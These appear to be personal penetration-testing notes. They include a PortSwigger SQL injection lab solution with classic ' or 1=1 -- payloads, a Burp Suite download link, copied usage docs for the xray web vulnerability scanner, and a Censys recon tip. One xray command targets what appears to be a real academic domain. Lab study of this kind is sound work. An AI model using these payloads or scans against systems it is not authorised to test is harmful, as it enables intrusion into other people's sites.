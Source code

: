 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
``` SELECT * FROM products WHERE category = 'Gifts' AND released = 1
 ```

 Soln--> SELECT * FROM products WHERE category = ' '  ' --+ AND released = 1

 SELECT * FROM products WHERE category = ' '  or 1=1  ' --+ AND released = 1


https://portswigger-cdn.net/burp/releases/download?product=pro&version=2024.10.3&type=Jar









# XRAY 
 ```
./xray_linux_amd64 webscan --url https://bwed.ac.in/ --html-output vuln.html
 ```
## 🚀 Quick Usage

**Before using, be sure to read and agree to the terms in the [License](https://github.com/chaitin/xray/blob/master/LICENSE.md) file. If not, please do not install or use this tool.**

1. Use the basic crawler to scan the links crawled by the crawler for vulnerabilities

    ```bash
    xray webscan --basic-crawler http://example.com --html-output vuln.html
    ```

2. Use HTTP proxy for passive scanning

    ```bash
    xray webscan --listen 127.0.0.1:7777 --html-output proxy.html
    ```
   Set the browser's HTTP proxy to `http://127.0.0.1:7777`, then you can automatically analyze proxy traffic and scan it.

   > To scan HTTPS traffic, please read the "Capture HTTPS Traffic" section below.

3. Scan a single URL without using a crawler

    ```bash
    xray webscan --url http://example.com/?a=b --html-output single-url.html
    ```

4. Manually specify plugins for this run

   By default, all built-in plugins will be enabled. You can specify the plugins to be enabled for this scan with the following commands.

   ```bash
   xray webscan --plugins cmd-injection,sqldet --url http://example.com
   xray webscan --plugins cmd-injection,sqldet --listen 127.0.0.1:7777
   ```

5. Specify Plugin Output

   You can specify to output the vulnerability information of this scan to a file:

    ```bash
    xray webscan --url http://example.com/?a=b \
    --text-output result.txt --json-output result.json --html-output report.html
    ```

   
For other usage, please read the documentation: https://docs.xray.cool



# ***************************************** RECON


online tool 
    check os : search.censys.io /  https://www.jsonapi.co/public-api/Censys.io/alternatives

    